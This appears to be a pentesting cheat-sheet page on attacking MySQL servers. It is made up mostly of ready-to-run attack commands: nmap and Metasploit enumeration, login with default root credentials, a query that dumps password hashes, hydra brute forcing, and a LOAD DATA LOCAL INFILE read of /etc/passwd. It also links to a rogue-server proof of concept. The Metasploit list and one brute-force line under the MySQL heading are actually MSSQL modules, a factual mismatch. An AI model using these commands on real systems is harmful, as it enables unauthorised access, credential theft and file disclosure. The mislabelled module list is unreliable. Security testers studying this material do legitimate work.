 ```yaml
---
description: (TCP 3306, 33060, 33061)
---
```


# MySQL

## :information\_source: Introduction

[MySQL](https://www.mysql.com/services/)

The shell ports for MySQL services are:

1. Client-server ( classic MySQL protocol ) TCP 3306
2. Client-server ( X protocol ) TCP 33060
3. Server cluster configuration check port, TCP 33061

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] Login brute force
* [ ] Check for MySQL arbitrary file read
* [ ] Check for CVEs



## Enumeration

```
nmap -sV -p 3306,33060,33061 <IP>
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
auxiliary/scanner/mysql/mysql_file_enum
```

## Query ( with credentials ) <a href="basics" id="basics"></a>

### Manual

```bash
# Try connection from outside
mysql --host <IP> -u root -proot
        
# Connection from the target machine
mysql -u root -p root database
```

```bash
show databases;
use database_name;
show tables;
describe table_name;
select host, user, password from mysql.user;

```

{% embed url="https://www.mysqltutorial.org/mysql-cheat-sheet.aspx" %}

### Automated

#### nmap :&#x20;

```bash
# Audits MySQL database server security configuration
mysql-audit

# Attempts to list all databases on a MySQL server. (creds required)
mysql-databases

#Dumps the password hashes from an MySQL server in a format suitable (creds required)
mysql-dump-hashes

# Checks for MySQL servers with an empty password for root or anonymous.
mysql-empty-password

# Performs valid-user enumeration against MySQL server using a bug
mysql-enum

# Connects to a MySQL server and prints information such as the protocol and version numbers, thread ID, status, capabilities, and the password salt.
mysql-info

# Runs a query against a MySQL database and returns the results as a table. (creds required)
mysql-query

# Attempts to list all users on a MySQL server.
mysql-users

# Attempts to show all variables on a MySQL server.
mysql-variables

# Attempts to bypass authentication in MySQL and MariaDB servers by exploiting CVE2012-2122. If its vulnerable, it will also attempt to dump the MySQL usernames and password hashes. 
mysql-vuln-cve2012-2122
```

#### Metasploit :

```
auxiliary/gather/lansweeper_collector                            Lansweeper Credential Collector
auxiliary/scanner/mssql/mssql_hashdump                           MSSQL Password Hashdump
auxiliary/scanner/mssql/mssql_ping                               MSSQL Ping Utility
auxiliary/scanner/mssql/mssql_schemadump                         MSSQL Schema Dump
auxiliary/admin/mssql/mssql_exec                                 Microsoft SQL Server Command Execution
auxiliary/admin/mssql/mssql_enum                                 Microsoft SQL Server Configuration Enumerator
auxiliary/admin/mssql/mssql_escalate_dbowner                     Microsoft SQL Server Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as                  Microsoft SQL Server Escalate EXECUTE AS
auxiliary/admin/mssql/mssql_findandsampledata                    Microsoft SQL Server Find and Sample Data
auxiliary/admin/mssql/mssql_sql                                  Microsoft SQL Server Generic Query
auxiliary/admin/mssql/mssql_sql_file                             Microsoft SQL Server Generic Query from File
auxiliary/admin/mssql/mssql_idf                                  Microsoft SQL Server Interesting Data Finder
auxiliary/admin/mssql/mssql_ntlm_stealer                         Microsoft SQL Server NTLM Stealer
auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                Microsoft SQL Server SQLi Escalate Db_Owner
auxiliary/admin/mssql/mssql_escalate_execute_as_sqli             Microsoft SQL Server SQLi Escalate Execute AS
auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                    Microsoft SQL Server SQLi NTLM Stealer
auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli            Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
auxiliary/admin/mssql/mssql_enum_sql_logins                      Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
auxiliary/admin/mssql/mssql_enum_domain_accounts                 Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
auxiliary/analyze/crack_databases                                Password Cracker: Databases
```

## Login Brute Force

```
 auxiliary/scanner/mssql/mssql_login 
 nmap --script mysql-brute <IP>
 hydra -L usernames.txt -P pass.txt <IP> mysql
```

## MySQL Arbitrary File Read

Load data infile is a very special syntax. Friends who know about injection or often play CTF may be familiar with this syntax. In CTF, we often encounter situations where there is no way to load\_file to read the file. At this time, load data infile is the only possible way to read files. Generally our statement is this:

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

The mysql server will read the server’s / etc / passwd and insert the data into the table according to `'\n'`. But now this statement also requires you to have FILE permissions, and non-local loaded statements are also restricted by `secure_file_priv`.

```
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

If we add a keyword local

```
mysql> load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

Query OK, 11 rows affected, 11 warnings (0.01 sec)
Records: 11  Deleted: 0  Skipped: 0  Warnings: 11
```

The client’s file will be read and send to the server. The execution result of the above statement is as follows.

![](../../.gitbook/assets/0-s6pVc0L8-WEq0HGr.png)

#### the PoC can be found here:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server" %}

an overview of the attack

{% embed url="http://russiansecurity.expert/2016/04/20/mysql-connect-file-read" %}

